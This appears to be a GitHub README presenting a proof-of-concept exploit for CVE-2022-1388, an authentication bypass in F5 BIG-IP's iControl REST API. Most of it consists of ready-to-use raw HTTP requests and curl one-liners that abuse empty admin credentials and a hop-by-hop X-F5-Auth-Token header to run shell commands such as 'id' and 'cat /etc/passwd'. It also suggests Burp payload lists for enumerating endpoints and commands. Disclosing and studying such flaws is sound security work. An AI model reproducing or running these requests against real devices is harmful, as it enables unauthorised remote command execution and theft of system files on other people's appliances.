 
# F5 BIG-IP RCE exploitation (CVE-2022-1388)

<p align="center">
<img src="https://user-images.githubusercontent.com/3140111/167378663-f1387d6d-dc49-431d-8550-cd8d5a993c66.png">
</p>

POST (1): 
![poc_id](https://user-images.githubusercontent.com/3140111/167375637-54878b95-0897-4ae6-92e0-60ab4cac5c62.png)
```ruby
POST /mgmt/tm/util/bash HTTP/1.1
Host: <redacted>:8443
Authorization: Basic YWRtaW46
Connection: keep-alive, X-F5-Auth-Token
X-F5-Auth-Token: 0

{"command": "run" , "utilCmdArgs": " -c 'id' " }

```
curl commandliner: 
```ruby
$ curl -i -s -k -X $'POST'
-H $'Host: <redacted>:8443' 
-H $'Authorization: Basic YWRtaW46' 
-H $'Connection: keep-alive, X-F5-Auth-Token' 
-H $'X-F5-Auth-Token: 0' 
-H $'Content-Length: 52' 
--data-binary $'{\"command\": \"run\" , \"utilCmdArgs\": \" -c \'id\' \" }\x0d\x0a'
$'https://<redacted>:8443/mgmt/tm/util/bash' --proxy http://127.0.0.1:8080
```
POST (2):
![poc_pass](https://user-images.githubusercontent.com/3140111/167375725-2a5403c1-f99a-427a-b99a-a18bc8f7f54c.png)
```ruby
POST /mgmt/tm/util/bash HTTP/1.1
Host: <redateced>:8443
Authorization: Basic YWRtaW46
Connection: keep-alive, X-F5-Auth-Token
X-F5-Auth-Token: 0

{"command": "run" , "utilCmdArgs": " -c ' cat /etc/passwd' " }

```
curl commandliner:
```ruby
$ curl -i -s -k -X $'POST'
-H $'Host: <redacted>:8443' 
-H $'Authorization: Basic YWRtaW46' -H $'Connection: keep-alive, X-F5-Auth-Token' 
-H $'X-F5-Auth-Token: 0'
--data-binary $'{\"command\": \"run\" , \"utilCmdArgs\": \" -c \' cat /etc/passwd\' \" }\x0d\x0a\x0d\x0a'
$'https://<redacted>/mgmt/tm/util/bash' --proxy http://127.0.0.1:8080
``` 
Note: 
```
Issue could be related between frontend and backend authentication "Jetty" with empty credentials "admin: <empty>" 
+ value of headers ,see "HTTP hop_by_hop request headers"...
```
My BIG-IP now fixed: 

![image](https://user-images.githubusercontent.com/3140111/167377761-91e37bd9-9461-4914-97ee-6e8e6366611b.png)

References and Fixes : </br>
* https://support.f5.com/csp/article/K23605346<br>
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1388

Here the documentation used latest nites:
* https://clouddocs.f5.com/api/icontrol-rest/ 

HTTP hop_by_hop request headers: 
* https://portswigger.net/research/top-10-web-hacking-techniques-of-2019-nominations-open

F5 iControl REST Endpoint Authentication Bypass Technical Deep Dive by horizon3
* https://www.horizon3.ai/f5-icontrol-rest-endpoint-authentication-bypass-technical-deep-dive/

My notes:
* Updated with my icontrol endpoints and commands list used on my research (extracted from public documentation)
* Could use Burp with "cluster  bomb" or "Battering ram" (simple list) e.g 

**Payload1**: icontrol_api_endpoints.txt <br/>
**Payload2**: icontrol_api_commands.txt <br/>


# Author
Alex Hernandez aka <em><a href="https://twitter.com/_alt3kx_" rel="nofollow">(@\_alt3kx\_)</a></em>




